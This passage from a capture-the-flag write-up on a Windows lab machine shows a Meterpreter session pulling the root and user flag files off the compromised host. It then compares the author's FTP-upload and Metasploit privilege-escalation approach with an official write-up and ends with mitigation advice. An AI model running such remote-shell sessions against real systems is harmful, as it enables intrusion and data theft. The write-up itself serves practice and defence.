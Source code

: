 So I guess I'm just gonna download it then...

```
meterpreter > download root.txt.txt
[*] Downloading: root.txt.txt -> root.txt.txt
[*] Downloaded 32.00 B of 32.00 B (100.0%): root.txt.txt -> root.txt.txt
[*] download   : root.txt.txt -> root.txt.txt
meterpreter > cd ..
meterpreter > cd ..
meterpreter > cd 
cd Administrator           cd Classic\ .NET\ AppPool  cd Default\ User           cd babis
cd All\ Users              cd Default                 cd Public                  
meterpreter > cd babis
meterpreter > cd Desktop
meterpreter > download user.txt.txt
[*] Downloading: user.txt.txt -> user.txt.txt
[*] Downloaded 32.00 B of 32.00 B (100.0%): user.txt.txt -> user.txt.txt
[*] download   : user.txt.txt -> user.txt.txt
meterpreter > 
```

## Comparing to the official writeup:

The official writeup first tested dirbuster against the webserver, which does not reveal anything. So they assume the most likely attack vector is ftp. We essentially did the same thing, but their method was faster than mine. As I manually went through the site, checking for something interesting. Dirbuster was a good choice, especially since the main page does not link to anything else, except out of the domain. 

The official writeup immediately recognizes the ASP.NET client, and therefore knows that .aspx is what needs to be used. While I had to do some trial and error to discover this. Now I know.

After getting access, they immediately run getuid to reveal that they are the IIS user. They know that this user does not have write permissions for the machine. And immediately begin setting up for privilege escalation. I did some sleuthing around to check if I could get privilege on the user, before giving up and looking to the metasploit framework for escalation.

Overall the official writeup just seems to have more experience. And is therefore able to take more efficient decisions. I am sure this will come with time.

## How to stop this exploit:

First of all, the anonymous ftp user should not have write access to the server at all. The anonymous user should probably just be removed unless necessary for some reason.

And secondly, to stop the privilege escalation. Patch the operating system. Keep it updated.

there is a complete explanation of the exploit here: https://www.exploit-db.com/exploits/11199

